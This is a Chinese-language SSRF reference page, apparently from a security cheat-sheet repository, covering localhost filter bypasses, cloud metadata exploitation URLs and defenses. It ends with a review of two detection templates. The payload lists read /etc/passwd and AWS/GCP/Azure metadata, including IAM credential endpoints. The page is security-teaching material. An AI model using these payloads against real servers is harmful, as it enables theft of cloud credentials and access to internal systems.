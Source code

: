 # 服务端请求伪造 (SSRF)

> 服务端请求伪造（Server-Side Request Forgery，SSRF）是一种安全漏洞，攻击者可以迫使服务器代表他们执行请求。

## 目录

* [工具](#工具)
* [方法论](#方法论)
* [绕过过滤器](#绕过过滤器)
    * [默认目标](#默认目标)
    * [使用IPv6表示法绕过本地主机限制](#使用ipv6表示法绕过本地主机限制)
    * [使用CIDR绕过本地主机限制](#使用cidr绕过本地主机限制)
    * [使用短网址](#使用短网址)
    * [使用特殊字符](#使用特殊字符)

* [SSRF 利用](#ssrf-利用)
* [防御措施](#防御措施)
* [学习资源](#学习资源)

## 什么是SSRF？

服务端请求伪造（SSRF）是一种安全漏洞，攻击者可以诱使服务器向其他系统发送精心构造的请求。这种攻击通常针对位于防火墙后面且无法从外部网络直接访问的内部系统。

## SSRF 攻击场景

1. **访问内部服务**
   - 攻击者可以扫描内部网络
   - 访问内部API
   - 与内部系统交互

2. **云元数据服务**
   - 在云环境中，可以访问实例元数据服务
   - 示例：`http://169.254.169.254/latest/meta-data/` (AWS)

3. **端口扫描**
   - 扫描内部网络中的开放端口
   - 示例：`http://example.com/proxy?url=http://internal:22`

## 绕过过滤器

### 默认目标

```
http://localhost:80
http://127.0.0.1:80
http://[::]:80/
http://2130706433/       # 127.0.0.1 的十进制表示
http://0x7f000001/      # 127.0.0.1 的十六进制表示
http://127.1/
http://127.0.1/
http://0/
http://0177.0.0.1/      # 八进制表示
```

### 使用IPv6表示法绕过本地主机限制

```
http://[::1]:80
http://[::]/80
http://[::]:80/
```

### 使用CIDR绕过本地主机限制

```
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0/8
```

### 使用短网址

可以使用各种URL缩短服务来绕过过滤器：
- bit.ly
- goo.gl
- tinyurl.com

### 使用特殊字符

```
http://example.com@127.0.0.1
http://127.0.0.1:80%2523@example.com/
http://127.1.1.1:80\@example.com/
http://127.1.1.1:80/example.com/
http://127.1.1.1:80/victim.com/
http://127.1.1.1:80//example.com/
```

## SSRF 利用

### 访问内部服务

```
http://example.com/proxy?url=http://internal/admin
http://example.com/proxy?url=file:///etc/passwd
```

### 云元数据服务

#### AWS
```
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME
```

#### Google Cloud
```
http://metadata.google.internal/computeMetadata/v1/
http://169.254.169.254/computeMetadata/v1/
```

#### Azure
```
http://169.254.169.254/metadata/instance?api-version=2019-08-15
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/privateIpAddress?api-version=2017-08-01&format=text
```

## 防御措施

1. **输入验证**
   - 白名单允许的URL方案（http, https）
   - 验证用户输入
   - 使用正则表达式限制输入格式

2. **网络层防护**
   - 使用网络分段
   - 限制出站连接
   - 使用Web应用防火墙(WAF)

3. **应用层防护**
   - 使用URL解析库
   - 禁用URL重定向
   - 实施适当的错误处理

4. **云环境**
   - 限制元数据服务访问
   - 使用最新版本的云服务
   - 实施最小权限原则

## 工具

- [SSRFmap](https://github.com/swisskyrepo/SSRFmap) - 自动SSRF漏洞利用工具
- [Gopherus](https://github.com/tarunkant/Gopherus) - 生成SSRF有效负载
- [SSRF Sheriff](https://github.com/teknogeek/ssrf-sheriff) - 用于测试SSRF的简单SSRF测试服务器



### 八、典型漏洞 YAML 文件分析

本目录及上级目录收录了多个与 SSRF（服务器端请求伪造）相关的漏洞利用模板，以下对部分典型 YAML 文件进行详细解读：

#### 1. CVE-2021-27905.yaml
- **漏洞类型**：SSRF（Apache Solr）
- **漏洞原理**：
  Apache Solr 8.8.1 及以下版本的 ReplicationHandler 接口未对 masterUrl/leaderUrl 参数做有效校验，攻击者可利用该参数发起任意外部请求，造成 SSRF。
- **探测原理**：
  该模板通过设置 masterUrl 为外部可控地址（如 interact.sh），若目标服务器发起请求并返回特定响应，则判定存在漏洞。
- **修复建议**：升级至 8.8.2 及以上版本，严格校验外部 URL。

#### 2. vmware-vcenter-ssrf.yaml
- **漏洞类型**：SSRF（VMware vCenter）
- **漏洞原理**：
  vCenter 某接口未对 url 参数做有效校验，攻击者可利用该参数让服务器请求任意外部地址，造成 SSRF、LFI、XSS 等多重风险。
- **探测原理**：
  该模板通过 url 参数注入外部地址，若 interactsh 平台收到请求且 User-Agent 为 Java，则判定存在漏洞。
- **修复建议**：升级 vCenter，修复相关接口。

---

#### 总结
SSRF 漏洞常见于服务端对用户可控 URL/地址未做严格校验的场景。攻击者可借此访问内网、云元数据、敏感服务等，甚至造成更严重的后果。防御措施包括：
- 对所有外部请求参数做白名单校验
- 禁止服务端访问敏感内网地址
- 加强日志与异常监控，及时发现异常请求
